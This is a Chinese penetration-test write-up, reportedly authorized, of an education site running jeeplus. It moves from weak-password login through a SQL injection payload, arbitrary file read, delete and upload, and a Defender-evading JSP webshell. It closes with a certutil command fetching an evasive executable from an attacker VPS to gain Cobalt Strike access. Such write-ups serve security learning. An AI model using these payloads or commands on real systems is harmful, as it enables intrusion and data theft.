 0x01 前言
=======

碰到了一个对外宣传是否安全的站点，但实际测试下来并不安全。不过在这次获取权限的过程中还是有点曲折，记录下来并分享给大家。  
**整个测试过程均在授权的情况下完成，漏洞详细已经提交并通告相关知情。**

0x02 过程
=======

### 1. 进入

<https://xxx.edu.cn/a/login>  
使用弱口令进行登陆

### 2. 寻找上传点

进来后找到一处文件上传的地方进行测试

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-a1900d25fe285c5f3c6dcd9f20529d79cdde1327.png)

前端对上传的文件类型做了初步校验，这里我们上传一个空文本后抓包

![image-20220413194850530.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-8bb9f490077bcd411941887ecf8ba087c249b0c4.png)

发现路径可以被操控，而且返回了绝对路径。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-9a070687c8517f2d84b10a70b766047249e44f92.png)

尝试访问后发现不能被解析只能下载。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-37ea34648ac4e682f274e0a346c348f6f0ba9730.png)

再次寻找上传点，发现有头像上传的地方。这种上传点一般都能被解析。

![image-20220413195538939.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-11d092d791c6f35a502a0b9127eed73e4b1dd46f.png)

上传正常图片

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-56fd22ec82136a411700184d97d48856c929302b.png)

返回了上传成功的提示，但没发现返回的地址。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d174759875e2519a0f05efc537f3ee5baa01bef9.png)

而后在个人资料出发现了图片地址

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f46f7da9be3332d7fb37a71922e43b89a6e0fd86.png)

我们再次尝试构造请求报文重发，这里直接将后缀改成 jsp 上传成功

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-b58ee336b6a9b56a1d73c86bf9d7f380f72dc85e.png)

刷新个人信息，找到访问链接。发现仍然是只能下载。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0b659487e65a5768d2bbf7134ddbeae969bc0990.png)

### 3.突破口

![image-20220413200236737.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-1ccda93eead7bc2d02597ac69060b55fb66af0bf.png)

我在 Cookie 中发现 jeeplus 的字眼，尝试搜索 getshell 方法

![image-20220413200321834.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-8c00948d74341d8975768c4b190bd5aa8c1725a4.png)

发现早已有前辈做过代码审计。

#### 1）SQL注入

```php
/a/sys/register/registerUser?roleName=wangba&mobile=13300990099\*&randomCode=2131&loginName=test1&password=123123&confirmNewPassword=123123&ck1=on&randomCode=2131&loginName=test1&password=123123&confirmNewPassword=123123&ck1=on
```

更具已有的 poc 进行尝试 sqlmap 跑起来，`*`号的地方是注入点。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-5c52a0c6878ec99a5aef3522d805f62929852574.png)

通过 sqlmap 跑出来是 oracle 数据库。尝试一些查询和提权无果放弃。注意，oracle 注入的 sql shell 只能做查询语句。

![image-20220413202358543.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0732e357cadde7616833b7b3e27e5b86ccb24b87.png)

#### 2）文件管理

直接访问 <https://xxx.edu.cn/a/sys/file> 就能越权进入到文件管理页面

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-2ade239904b21f6d1de83356d3c5566031ac67ba.png)

这个目录下面的文件都只能下载，我们对这里的文件上传、删除、下载都做了测试。

##### a. 任意文件读取

下载接口可以返回文件内容，存在任意文件读取。

![image-20220413202831585.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-c2a71f26f54b8da644fcdcfbf61a72d8dce486d6.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-27eaa266c0c127b3536833b6f4916eb8b50d5eea.png)

##### b.任意文件删除

这里甚至可以直接删除文件夹

![image-20220413203037016.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-4a7e85532d835a65db624ca82d81f9e26b78c9d6.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-eb9b1f5829428292ca0cfc7673fea3931f7acb5a.png)

##### c. 任意文件上传

![image-20220413203146352.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-e5ef7d0efb56163c609ab798cafdaaaf56fee2c5.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-edcc7bdc0b67c94cbba6215b676c826fd45c1f96.png)  
这里可以自定义上传路径，如果路径不存在则创建目录并上传。

#### 3）尝试上传文件到可解析目录

我第一时间想到上传到 static 目录，因为这个目录是可以被直接访问的。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-8f1503726d052fe432de262b9d649e2bb8655a2e.png)

然后尝试访问仍然是 404。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-3f1a3a02eaea40802d5d4174582c23192d3fba2f.png)

这里就是我没有找到真确的路径。想去官网直接下载源码，点击下载后回要求注册，注册之后也没有发现哪里有下载源码的地方。

![image-20220414092738726.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-3177b00a840310fa03e024de53e51a868323ab92.png)

没办法就去凌风云网盘搜了一下，发现存在历史的版本，我感觉差异应该不会那么大。

![image-20220414092826967.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-7a024945aa20d193ff3080c5db8485c1c200377e.png)

挑了一个比较大文件的下载，解压后可以查看目录结构。

![image-20220414093004440.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-c6e6441171ac50e60a2efe7b0f0e3b9164d43280.png)

看到有存放配置文件的地方，我想看看能不能通过读取配置来找到绝对路径。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-5b518d24e37a0fccf336bec8f9b2ed68c16859e4.png)

结果还是路径不对。一番尝试后无果，突然想起来站点的目录还没扫过，直接 dirsearch 来一波。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-56497b4eaa730bd3cc44df02986b83fcb88cf847.png)

当我看到扫出来 web.xml 这些配置文件我就知道有戏了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0cacf44f92f8f43143fe9404d4f31204f5cd4f51.png)

在 web.xml 中没有发现东西，但是在 `conf/server.xml` 发现了站点的另一个路径，我觉得这就是前端访问的路径。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-8f2db36ed602a38d95f8a2b8d1c8caeec32c7d1f.png)

通过任意文件接口尝试构造路径 `C:\tomcat\webapps\xxxx\WEB-INF\web.xml` 发现有内容返回说明我找对了路径，然后发现了 404.jsp 存放的路径，对比我们之前拿到的源码发现我们成功找对了路径——上传文件到 `webpage` 这个目录**绝对能解析**。

![image-20220414094047472.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-3cb17cb0832a2b8e0776d267e30ec17dca65e50f.png)

尝试直接上传 webshell。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0b96f9f3926805a1390183c3f2b5e1326f30e27f.png)

发现文件真实存在，但是没有返回东西，我用任意文件读取查看。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-6a9c2c9c4cd173a957bdf8cbf698cfb013b816cd.png)

#### 4）免杀绕过WD检测

发现可能存在waf，但我后面对waf做了识别发现是 apache generic，这个不至于拦截我传的。再用 nmap 对机器做识别发现是 window10，让我想起了被 windows Defender支配的恐惧，不过这里我们找个命令免杀马子上传即可，找了一番之后用了以前 hw 碰到的一个马子。

<https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/jsp/Runtime-reflect-cmd.jsp>

![image-20220414095017232.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-fbabc408cd1c78e1417a009c457bbfd1c2086185.png)

#### 5）上线 CS

成功上传并执行命令，原本想通过 powershell 上线，但是尝试过不同的命令包括免杀命令都不行。

然后我通过远程下载我的面杀马子上线 CS `certutil -urlcache -split -f http://VPS/免杀马子.exe`

![image-20220414095202570.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-b954675e4422d54d9cd70351002bdc3bb3e00bc1.png)  
成功上线。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-4578b7233d3fdf04844ffaf82837d5fe9ded1e1c.png)

代理出来之后进入桌面，发现果然开启了 WD

![image-20220414135106369.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-85e577073fbd4c931d63d76861310890a5996f9c.png)

~上机之后才知道，原来管理员把上传文件夹路径放到F盘，主体是C盘，估计就是怕内存不够吧。~

0x03 总结
=======

碰到没有思路的站点就做好信息收集扩大攻击面。指纹识别、端口扫描、路径扫描都是老生常谈的了，这次还结合了公网网盘信息泄露的点，不然我还得继续猜路径。还有一点需要注意的是，测试的前提是**取得相关授权**。